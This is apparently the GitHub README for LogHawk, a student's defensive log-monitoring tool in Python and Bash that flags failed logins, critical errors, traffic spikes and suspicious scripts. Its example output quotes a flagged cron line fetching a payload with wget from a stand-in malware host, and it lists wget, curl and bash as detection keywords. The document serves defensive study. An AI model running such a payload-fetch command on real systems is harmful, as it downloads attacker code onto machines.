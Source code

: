 
# 🦅 LogHawk

LogHawk is a lightweight, open-source log monitoring tool built in both Python and Bash. It automates the detection of suspicious activity in system and web logs, helping security teams identify threats like brute-force attacks, critical errors, and malicious scripts before they become incidents. It scans system and application logs for:

- 🛑 Failed login attempts
- ⚠️ Unusual traffic spikes
- 🔥 Critical system errors
- 🦠 Suspicious script activity


## ⚙️ Installation
Before using LogHawk, make sure you have Python 3 installed. You can install it by running: 

```bash
sudo apt-get install python3
```
Clone the repo and make scripts executable:
```bash
git clone https://github.com/Lintageorge7/LogHawk.git
cd LogHawk
chmod +x loghawk.sh
chmod +x loghawk.py
```
## 🐍 Usage (Python)

```bash
python3 loghawk.py Sample_logs/auth.log
```

## 📤 Example Output
```bash
[🔐] Detecting failed logins...
⚠️  6 failed login attempts from 192.168.1.101
[🌐] Detecting traffic spikes...
[🔥] Detecting system errors...
❗ Jul 14 08:14:30 systemd[1]: ERROR - Disk full
❗ Jul 14 08:14:45 app[1001]: CRITICAL - Kernel panic
[🦠] Detecting suspicious script activity...
🚩 Suspicious: Jul 14 08:14:01 cron[5678]: (root) CMD (wget http://malware.site/payload.sh)
```

## 💻 Usage (Bash)
```bash
./loghawk.sh Sample_logs/system.log
```

## 📸 Sample Output Screenshot

[screenshots/sample_bashoutput.png](https://github.com/Lintageorge7/LogHawk/blob/84d22923e3ce9c1e7a784bde5d43baba02d11bb3/screenshots/sample_bashoutput.png)

[screenshots/sample_output.png](https://github.com/Lintageorge7/LogHawk/blob/440c080892cf81e7c78bf9436885271717ce1739/screenshots/sample_output.png)

## 🧠 Threats Detected
LogHawk currently detects:

 • 🔐 Failed Login Attempts — Flags 5+ failed logins per IP (MITRE T1110)

 • 🔥 Critical System Errors — Catches “ERROR” and “CRITICAL” entries in logs

 • 🦠 Suspicious Script Activity — Identifies malicious command use (wget, curl, bash)

 • 🌐 Traffic Spikes — High request volume from single IPs (future iteration)

All detections act as potential Indicators of Compromise (IoCs).

## ⏱️ Automation Setup

### 🐧 Linux (Cron)
Run every 10 minutes:
```bash
crontab -e
*/10 * * * * /home/student/LogHawk/loghawk.sh /var/log/auth.log
```

## 🪟 Windows: Task Scheduler

To schedule LogHawk on Windows:

1. Open Task Scheduler → Create Basic Task

2. Trigger: Every 10 minutes

3. Action: Start a program
    
 •  Program: python

 •  Arguments: C:\path\to\loghawk.py C:\logs\auth.log

## 📂 Project Structure

```bash
LogHawk/

├── loghawk.py        # Python version
├── loghawk.sh        # Bash version
├── sample_logs/      # Test log files
├── screenshots/      # Images for report/README
├── README.md         # This file
└── LogHawk_Report.md # Final report (optional: .pdf)
```

## 🧪 Sample Logs

Sample logs are located in the sample_logs/ folder for testing:

• auth.log

• access.log

• system.log


## 🔄 Future Improvements
 
 • Email/SMS alerting

 • Log filtering thresholds

 • JSON/CSV export

 • Web UI dashboard

 • Integration with ELK or Splunk

## 📚 References

 • MITRE ATT&CK: https://attack.mitre.org/ 

 • NIST Log Management Guidelines: https://csrc.nist.gov/publications 

 • Red Hat: Log Files and Monitoring: https://access.redhat.com  

## 🤝 Contributing
Pull requests are welcome. If you have improvements or new detection rules, feel free to contribute!

## 📄 License
This project is licensed under the MIT License.

## 👩‍💻 Author
Linta Susan George
Cybersecurity Student @ Lighthouse Labs | 🇨🇦
